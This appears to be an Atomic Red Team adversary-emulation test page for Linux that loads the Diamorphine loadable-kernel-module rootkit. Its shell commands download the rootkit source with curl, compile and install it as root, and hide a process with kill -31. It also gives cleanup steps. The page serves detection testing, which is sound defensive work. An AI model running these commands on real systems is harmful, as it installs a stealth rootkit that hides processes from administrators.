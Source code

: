 


<br/>
<br/>

## Atomic Test #4 - Loadable Kernel Module based Rootkit (Diamorphine)
Loads Diamorphine kernel module, which hides itself and a processes.

**Supported Platforms:** Linux


**auto_generated_guid:** 0b996469-48c6-46e2-8155-a17f8b6c2247





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| repo | Url of the diamorphine github repo | string | https://github.com/m0nad/Diamorphine/|
| rev | Revision of the github repo zip | string | 898810523aa2033f582a4a5903ffe453334044f9|
| rootkit_name | Module name | string | diamorphine|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo modprobe #{rootkit_name}
ping -c 10 localhost >/dev/null & TARGETPID="$!"
ps $TARGETPID
kill -31 $TARGETPID
ps $TARGETPID || echo "process ${TARGETPID} hidden"
```

#### Cleanup Commands:
```sh
kill -63 1
sudo modprobe -r #{rootkit_name}
sudo rm -rf /lib/modules/$(uname -r)/#{rootkit_name}.ko /tmp/atomic
sudo depmod -a
```



#### Dependencies:  Run with `bash`!
##### Description: The kernel module must exist on disk at specified location (#{rootkit_name}.ko)
##### Check Prereq Commands:
```bash
if [ -f /lib/modules/$(uname -r)/#{rootkit_name}.ko ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```bash
mkdir -p /tmp/atomic && cd /tmp/atomic
curl -sLO #{repo}/archive/#{rev}.zip && unzip #{rev}.zip && cd Diamorphine-#{rev}
make
sudo cp #{rootkit_name}.ko /lib/modules/$(uname -r)/
sudo depmod -a
```




<br/>
